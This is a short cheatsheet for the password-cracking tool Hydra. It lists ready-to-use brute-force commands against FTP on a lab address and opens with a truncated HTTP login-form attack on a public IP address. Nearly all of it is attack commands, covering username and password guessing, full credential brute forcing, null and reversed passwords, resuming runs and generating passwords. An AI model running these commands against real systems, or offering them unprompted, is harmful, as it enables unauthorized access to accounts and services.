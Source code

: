 `hydra -l admin -P /path/to/password/list.txt 83.136.253.102 -s 37031 http-post-form "/login.php`


# Hydra Cheatsheet

## Guessing Passwords

Guess password for user `ignite`:



`hydra -l ignite -P pass.txt 192.168.1.141 ftp`

## Guessing Usernames

Guess username for password `123`:



`hydra -L users.txt -p 123 192.168.1.141 ftp`

## Brute Forcing Usernames and Passwords



`hydra -L users.txt -P pass.txt 192.168.1.141 ftp`

## Verbose and Debug Modes

**Verbose mode:**
`hydra -L users.txt -P pass.txt 192.168.1.141 ftp -V`

**Debug mode:**

`hydra -l ignite -P pass.txt 192.168.1.141 ftp -d`

## Null/Same/Reverse Password Attempts

`hydra -L users.txt -P pass.txt 192.168.1.141 ftp -V -e nsr`

## Saving Output to Disk

`hydra -L users.txt -P pass.txt 192.168.1.141 ftp -o result.txt`

## Resuming Brute Force Attacks



`hydra -R`

## Generating Passwords



`hydra -l ignite -x 1:3:1 ftp://192.168.1.141`
